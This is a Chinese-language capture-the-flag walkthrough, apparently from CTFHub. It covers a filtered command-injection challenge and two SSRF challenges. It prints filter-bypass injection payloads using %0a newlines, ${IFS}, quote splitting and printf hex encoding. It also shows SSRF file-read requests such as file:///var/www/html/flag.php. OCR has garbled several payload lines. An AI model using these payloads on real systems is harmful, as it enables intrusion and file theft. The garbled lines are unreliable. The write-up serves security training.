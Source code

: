 这又是一个寂寞

#### 综合过滤练习：/(||&|;| |/|cat|flag|ctfhub)/

提示：%0a(换行符) 、%0d(回车符)

在这里的输入框输入：

127.0.0.1%0als

会发现，%0a会被两次编码，所以直接在URL里面输入才算可以

考虑到在linux系统内shell执行的并不能识别url编码，那么这里得知可以使用hex16位编码来进行转换：

使用命令 ( p r i n t f (printf (printf{IFS}“hex编码”)

127.0.0.1%0als< ( p r i n t f (printf (printf{IFS}"\x66\x6c\x61\x67\x5f\x69\x73\x5f\x68\x65\x72\x65")

得到文件：

flag_144233033911102.php

构造:

127.0.0.1;cat flag_is_here/flag_144233033911102.php

127.0.0.1%0aca’'t I F S {IFS} IFS(printf${IFS}"\x66\x6C\x61\x67\x5F\x69\x73\x5F\x68\x65\x72\x65\x2F\x66\x6C\x61\x67\x5F\x31\x34\x34\x32\x33\x33\x30\x33\x33\x39\x31\x31\x31\x30\x32\x2E\x70\x68\x70")

## SSRF

### 内网访问

题目信息：尝试访问位于127.0.0.1的flag.php吧

?url=127.0.0.1/flag.php

GG

#### 伪协议读取文件

题目信息：尝试去读取一下Web目录下的flag.php吧

?url=file:///var/www/html/flag.php

查看源文件得flag

```
URL伪协议：
file://  本地文件传输协议，File协议主要用于访问本地计算机中的文件，就如同在Windows资源管理器中打开文件一样
dict://  Dict协议,字典服务器器协议,dict是基于查询响应的TCP协议,它的目标是超越Webster protocol，并允许客户端在使用过程中访问更多字典。Dict服务器和客户机使用TCP端口2628
gopher://  Gopher协议是互联网上使用的分布型的文件搜集获取网络协议。gopher协议是在HTTP协议出现之前,在internet上常见重用的协议,但是现在已经用的很少了
sftp://  Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（Secure File Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作
ldap://  LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议
tftp://  TFTP（Trivial File Transfer Protocol,简单文件传输协议）是一种简单的基于lockstep机制的文件传输协议，它允许客户端从远程主机获取文件或将文件上传至远程主机。 
```
